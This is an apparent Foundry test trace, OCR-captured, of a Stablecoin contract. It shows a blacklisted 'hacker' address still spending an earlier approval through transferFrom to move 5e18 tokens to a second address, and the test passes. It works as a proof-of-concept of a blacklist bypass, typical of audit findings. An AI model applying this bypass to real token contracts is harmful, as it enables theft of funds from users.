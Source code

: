 ```solidity
    │   └─ ← [Return] 1000000000000000000 [1e18]
    ├─ [0] console::log("Before hacker balance: ", 1000000000000000000 [1e18]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] VM::prank(0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF)
    │   └─ ← [Return] 
    ├─ [24831] Stablecoin::approve(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69, 5000000000000000000 [5e18])
    │   ├─ emit Approval(owner: 0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF, spender: 0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69, value: 5000000000000000000 [5e18])
    │   └─ ← [Return] true
    ├─ [0] VM::startPrank(0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf)
    │   └─ ← [Return] 
    ├─ [29743] Stablecoin::grantRole(0x98db8a220cd0f09badce9f22d0ba7e93edb3d404448cc3560d391ab096ad16e9, 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf)
    │   ├─ emit RoleGranted(role: 0x98db8a220cd0f09badce9f22d0ba7e93edb3d404448cc3560d391ab096ad16e9, account: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf, sender: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf)
    │   └─ ← [Stop] 
    ├─ [51975] Stablecoin::addBlackList(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69)
    │   ├─ emit Transfer(from: 0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69, to: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf, value: 1000000000000000000 [1e18])
    │   ├─ emit AddedBlacklist(user: 0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69)
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [713] Stablecoin::balanceOf(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] 0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718
    ├─ [0] VM::prank(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69)
    │   └─ ← [Return] 
    ├─ [30714] Stablecoin::transferFrom(0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF, 0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718, 5000000000000000000 [5e18])
    │   ├─ emit Transfer(from: 0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF, to: 0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718, value: 5000000000000000000 [5e18])
    │   └─ ← [Return] true
    ├─ [713] Stablecoin::balanceOf(0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718) [staticcall]
    │   └─ ← [Return] 5000000000000000000 [5e18]
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return] 
    ├─ [713] Stablecoin::balanceOf(0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF) [staticcall]
    │   └─ ← [Return] 5000000000000000000 [5e18]
    ├─ [0] console::log("After user balance: ", 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [713] Stablecoin::balanceOf(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] console::log("After hacker balance: ", 0) [staticcall]
    │   └─ ← [Stop] 
    ├─ [713] Stablecoin::balanceOf(0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718) [staticcall]
    │   └─ ← [Return] 5000000000000000000 [5e18]
    ├─ [0] console::log("After hacker2 balance: ", 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF)
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.56s (4.54ms CPU time)
```
